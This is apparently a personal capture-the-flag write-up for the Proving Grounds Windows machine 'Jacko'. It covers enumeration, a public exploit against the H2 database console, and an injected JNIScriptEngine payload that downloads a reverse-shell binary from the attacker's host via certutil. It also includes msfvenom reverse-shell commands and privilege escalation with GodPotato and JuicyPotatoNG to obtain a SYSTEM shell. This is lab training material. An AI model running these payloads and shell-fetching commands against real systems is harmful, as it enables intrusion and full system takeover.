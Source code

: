 # NMAP

```
sudo nmap -sC -sV 192.168.247.66 -oN nmap-jacko
```

![[PG/Windows/attachments/Pasted image 20250705214502.png]]

All ports
![[PG/Windows/attachments/Pasted image 20250705214714.png]]

# SMB 

![[PG/Windows/attachments/Pasted image 20250705214838.png]]
- boo

# Web

Port 8082
![[PG/Windows/attachments/Pasted image 20250705214912.png]]


## Feroxbuster 

```
feroxbuster -u http://192.168.247.66:8082 -x jsp -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```


This public exploit did work to get command execution.
https://www.exploit-db.com/exploits/49384
![[PG/Windows/attachments/Pasted image 20250705220252.png]]

Now just need to turn it into a reverse shell..

Maybe PowerShell cradle?

Systeminfo

![[PG/Windows/attachments/Pasted image 20250705222347.png]]

Use msfvenom to create a payload.

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.152 LPORT=9001 -f exe > rev.exe
```

Upload rev shell like dis 

```
"certutil -split -urlcache -f http://192.168.45.152/rev.exe C:\\Users\\tony\\rev.exe"
```

Can remove the "create alias" portion of the script

```
CALL JNIScriptEngine_eval('new java.util.Scanner(java.lang.Runtime.getRuntime().exec("certutil -split -urlcache -f http://192.168.45.154/rev.exe C:\\Users\\tony\\rev.exe").getInputStream()).useDelimiter("\\Z").next()');
```

Upload payload
![[PG/Windows/attachments/Pasted image 20250705225415.png]]

Execute payload 

```
"C:\\Users\\tony\\rev.exe"
```

![[PG/Windows/attachments/Pasted image 20250705225757.png]]

Catch shell 

![[PG/Windows/attachments/Pasted image 20250705225826.png]]

e8f19c891059489af013c56fa49f7e95

# Priv Esc 

We saw SeImpersonatePrivilege earlier. 

whoami only executes from one location...

Fix weird paths 
```
set PATH=%PATH%;C:\windows\system32;C:\windows;C:\windows\System32\Wbem;C:\windows\System32\WindowsPowerShell\v1.0\;C:\windows\System32\OpenSSH\;C:\Program Files\dotnet\
```
## God Potato

Determine .NET environment version

```
cd reg query "HKLM\Software\Microsoft\Net Framework Setup\NDP" /s
```

or 

```
Get-ChildItem 'HKLM:\SOFTWARE\Microsoft\NET Framework Setup\NDP' -Recurse
```

Looks like .NET v4 

![[PG/Windows/attachments/Pasted image 20250706001206.png]]

Transfer GodPotato version 4 to target box 

```
iwr http://192.168.45.152:81/GodPotato-NET4.exe -outfile GodPotato-NET4.exe
```

Test with 'whoami'

```
.\GodPotato-NET4.exe -cmd "whoami"
```

HEHEHEHHEHE
![[PG/Windows/attachments/Pasted image 20250706001624.png]]

We can create another msfvenom reverse shell

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.152 LPORT=9002 -f exe > rev2.exe
```

Transfer 

![[PG/Windows/attachments/Pasted image 20250706002038.png]]

Execute payload with godpotato 

```
.\GodPotato-NET4.exe -cmd "c:\users\tony\Documents\rev2.exe"
```

![[PG/Windows/attachments/Pasted image 20250706002247.png]]

The shell died. wat

## Maybe Print Spoofer will work?
https://github.com/itm4n/PrintSpoofer/releases/tag/v1.0
```
iwr -uri http://192.168.45.152:81/PrintSpoofer64.exe -outfile printspoofer.exe
```

This didn't work.

## JuicyPotatoNG

Test 

```
.\jp.exe -t * -p "C:\Windows\System32\cmd.exe" -a "/c whoami > C:\juicy.txt"
```

![[PG/Windows/attachments/Pasted image 20250706004115.png]]
yey

Execute rev2.exe

```
.\jp.exe -t * -p "C:\Users\tony\Documents\rev2.exe"
```

![[PG/Windows/attachments/Pasted image 20250706004609.png]]

Catch system shell

![[PG/Windows/attachments/Pasted image 20250706004649.png]]

![[PG/Windows/attachments/Pasted image 20250706004702.png]]
